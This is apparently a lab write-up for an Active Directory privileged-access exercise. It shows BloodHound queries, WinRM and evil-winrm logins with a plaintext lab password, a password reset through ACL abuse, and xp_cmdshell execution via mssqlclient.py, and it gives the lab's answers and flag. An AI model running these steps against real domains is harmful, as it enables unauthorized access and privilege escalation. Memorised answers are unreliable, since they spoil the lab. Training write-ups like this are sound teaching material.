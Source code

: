 <div align='center'>

# **Lab 18: Privileged Access** 

</div>

## **Remote Desktop**

**Enumerating the Remote Desktop Users Group**

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"
```

![](../imgs/Lab/Lab18/1.png)

We can see that all Domain Users (meaning all users in the domain) can RDP to this host

**Checking the Domain Users Group's Local Admin & Execution Rights using BloodHound**

Collecting information

```powershell
SharpHound.exe -c All --zipfilename ILFREIGHT
```

![](../imgs/Lab/Lab11/16.png)

Load into BloodHound

![](../imgs/Lab/Lab18/2.png)

**Checking Remote Access Rights using BloodHound**

![](../imgs/Lab/Lab18/3.png)

## **WinRM**

**Enumerating the Remote Management Users Group**

```powershell
Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"
```

![](../imgs/Lab/Lab18/4.png)

We can see that user `forend` is a member of this group and can use WinRM to remotely manage this host

**Using the Cypher Query in BloodHound**

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```

![](../imgs/Lab/Lab18/5.png)

**Question:** What other user in the domain has CanPSRemote rights to a host?
- **Answer:** bdavis

**Question:** What host can this user access via WinRM? (just the computer name)
- **Answer:** ACADEMY-EA-DC01

![](../imgs/Lab/Lab18/16.png)

**Establishing WinRM Session from Windows (forend)**

```powershell
$password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
$cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred
```

![](../imgs/Lab/Lab18/6.png)

**Connecting to a Target with Evil-WinRM and Valid Credentials on Linux**

Get the IP address of the target host

```powershell
ipconfig
```

![](../imgs/Lab/Lab18/7.png)

```zsh
evil-winrm -i 172.16.5.25 -u forend -p 'Klmcargo2'
```

![](../imgs/Lab/Lab18/8.png)



## **SQL Server Admin**

Custom query

```
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:SQLAdmin*1..]->(c:Computer) RETURN p2
```

![](../imgs/Lab/Lab18/9.png)

We find the user `damundsen` has SQL Admin rights on the host `ACADEMY-EA-DB01`

Abusing ACL of user `wley` to change the password of user `damundsen` to `SQL1234!`. Refer to [Lab 16](Lab16_ACL_Abuse_Tactics.md) for more details

**Enumerating MSSQL Instances with PowerUpSQL**

```powershell
Get-SQLInstanceDomain
```

![](../imgs/Lab/Lab18/10.png)

Authenticate against the remote SQL server host and run custom queries or operating system commands

![](../imgs/Lab/Lab18/11.png)

**Running mssqlclient.py Against the Target on Linux**

```zsh
mssqlclient.py 'INLANEFREIGHT/DAMUNDSEN:SQL1234!@172.16.5.150' -windows-auth
```

![](../imgs/Lab/Lab18/12.png)

Choosing `enable_xp_cmdshell`

![](../imgs/Lab/Lab18/13.png)

Enumerating our Rights on the System using xp_cmdshell

```zsh
xp_cmdshell whoami /priv
```

![](../imgs/Lab/Lab18/14.png)

**Question:** Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.

![](../imgs/Lab/Lab18/15.png)

- **Answer:** 1m_the_sQl_@dm1n_n0w!

![](../imgs/Lab/Lab18/17.png)
